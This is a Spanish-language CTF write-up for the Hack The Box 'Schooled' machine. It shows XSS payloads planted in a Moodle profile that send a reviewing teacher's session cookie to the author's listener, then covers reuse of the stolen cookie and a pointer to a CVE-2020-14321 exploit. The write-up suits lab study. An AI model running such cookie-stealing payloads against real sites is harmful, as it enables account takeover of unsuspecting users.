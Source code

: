 En el directorio /js está todo el codigo fuente, pero no hay nada interesante. Luego está el subdominio **moodle**.
Me han pedido que me registre -> cucuxii : Cucuxii123@ : cucuxii@student.schooled.htb

![](/assets/images/htb-schooled/schooled4.PNG)

Una vez registrado hay una seccion donde puedes subir archivos pero no hay manera de acceder a ellos, simplemente lo guarda (intenté subir un cmd.php)
En el botón **Site-home** hay cursos disponibles para iniciar, Es de un tal Michael Fillips (uno de los usaurios que obtuvimos antes). Una vez nos metemos en ese
curso, hay una seccion de anuncios:
```
Este es un curso al que uno se puede apuntar por su cuenta, para todos los que quieran mis lecciones, que se hagan
un perfil de MoodleNet.
Los que no lo tengan serán borrados, YO ESTARÉ REVISANDO a todos los estudiantes
```
---------------------------

# Part 2: Escalada a profesor con cookie hijacking

Cuando tenemos a otra persona que va a revisar algo nuestro podemos pensar en ataques XSS (ejemplo robo de cookie):

![](/assets/images/htb-schooled/schooled5.PNG)

```console
└─$ sudo python3 -m http.server 80
10.10.10.234 - - [01/Nov/2022 13:22:52] code 404, message File not found
10.10.10.234 - - [01/Nov/2022 13:22:52] "GET /pwned.js HTTP/1.1" 404
```
Nuevo payload -> robo de cookie
```<script>document.location=”http://10.10.14.6/?cookie=” + document.cookie</script>```

No recibimos nada, pero sabemos que este hombre se come todo el javascript que le mandemos
```js
var req1 = new XMLHttpRequest();  // Nueva peticion "req1"
req1.open("GET", "http://10.10.14.6/?cookie=" + document.cookie, false);   // Que visite tu servidor y te mande la cookie con el parametro cookie
req1.send();   // hacer la peticion 
```
Nos salta esto:
```
10.10.10.234 - - [01/Nov/2022 13:37:22] "GET /?cookie=MoodleSession=u2ocqtkbdqpr7sqg4rf0lq0of7 HTTP/1.1" 200 -
```
Cambiamos nuestra cookie por la suya y ya estamos bajo su perfil.

![](/assets/images/htb-schooled/schooled6.PNG)


En el calendario no hay nada interesante y en archivos tampoco. Si miramos su perfil nos da el correo
```phillips_manuel@staff.schooled.htb``` El nuestro era simplemente: **student.schooled.htb**

Si ponemos esto en el */etc/hosts* y accedemos a ```http://staff.schooled.htb```, pero es lo mismo que la 
**schooled.htb** original.

No se que más hacer, en searchsploit hay muchas versiones del moodles, asi que hay que buscar su version.
Si buscamos en google ```moodle RCE teacher``` leyendo resulta que en moodle hay que pasar de profesor a manager. 
```moodle privilege escalation from teacher to manaher``` nos da a la vuln **CVE-2020-14321**, acabando en este 
[exploit](https://github.com/HoangKien1020/CVE-2020-14321), Tiene hasta un video de vimeo donde lo explica.
```